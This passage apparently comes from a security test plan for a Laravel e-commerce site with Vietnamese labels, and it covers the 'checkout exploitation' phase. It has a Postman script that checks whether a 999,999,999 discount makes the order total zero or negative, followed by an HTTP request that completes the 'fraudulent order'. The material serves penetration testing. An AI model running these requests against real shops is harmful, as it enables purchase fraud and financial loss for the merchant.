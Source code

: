 ### **PHASE 3: CHECKOUT EXPLOITATION**

#### **Step 3.1: Verify Discount in Checkout**
```http
GET {{BASE_URL}}/checkout
Cookie: laravel_session={{SESSION_COOKIE}}
```

**Test Script:**
```javascript
pm.test("Verify malicious discount in checkout", function () {
    const html = pm.response.text();
    
    console.log("=".repeat(40));
    console.log("🛒 CHECKOUT VERIFICATION");
    console.log("=".repeat(40));
    
    // Check for malicious discount
    if (html.includes('999,999,999') || html.includes('999999999')) {
        console.log("👁️ MALICIOUS DISCOUNT VISIBLE IN CHECKOUT!");
        pm.environment.set("EXPLOIT_VISIBLE_CHECKOUT", "true");
    }
    
    // Check final total
    const totalMatch = html.match(/Tổng cộng.*?(\d{1,3}(?:\.\d{3})*|\d+)/);
    if (totalMatch) {
        const total = parseInt(totalMatch[1].replace(/\./g, ''));
        console.log("💵 Checkout total:", total.toLocaleString('vi-VN'), "đ");
        
        if (total <= 0) {
            console.log("🚨 CHECKOUT TOTAL IS ZERO OR NEGATIVE!");
            console.log("💎 READY FOR FREE/PROFITABLE ORDER!");
        }
    }
    
    // Check shipping fee inconsistency
    if (html.includes('$subtotal > 100000') && html.includes('15000')) {
        console.log("⚠️ Frontend shipping logic: Free > 100k, Fee: 15k");
        pm.environment.set("FRONTEND_SHIPPING", "100000");
    }
});
```

#### **Step 3.2: 🚨 COMPLETE FRAUDULENT ORDER**
```http
POST {{BASE_URL}}/checkout/process
Content-Type: application/x-www-form-urlencoded
X-CSRF-TOKEN: {{CSRF_TOKEN}}
Cookie: laravel_session={{SESSION_COOKIE}}

full_name=Security Tester&
phone=0123456789&
email=exploit@test.com&
address=123 Exploit Street&
city=Hà Nội&
district=Ba Đình&
ward=Phúc Xá&
payment_method=cod&
terms=on&
notes=Security test - DO NOT DELIVER
```
